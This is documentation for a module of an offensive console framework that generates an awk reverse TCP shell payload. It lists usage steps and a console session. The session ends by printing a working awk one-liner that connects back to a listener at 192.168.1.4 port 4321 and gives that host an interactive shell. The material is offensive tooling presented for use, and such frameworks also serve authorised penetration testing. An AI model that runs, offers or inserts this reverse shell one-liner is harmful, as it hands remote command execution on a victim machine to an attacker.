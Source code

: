 ## Description

Module generates payload that creates interactive tcp reverse shell by using awk one-liner. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/cmd/awk_reverse_tcp`
  3. Do: `set lhost 192.168.1.3`
  4. Do: `set lport 4321`
  5. Do: `run`
  6. Module generates awk tcp reverse shell payload

## Scenarios

```
rsf > use payloads/cmd/awk_reverse_tcp
rsf (Awk Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (Awk Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (Awk Reverse TCP) > run
[*] Running module...
[*] Generating payload
awk 'BEGIN{s="/inet/tcp/0/192.168.1.4/4321";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)};'
```
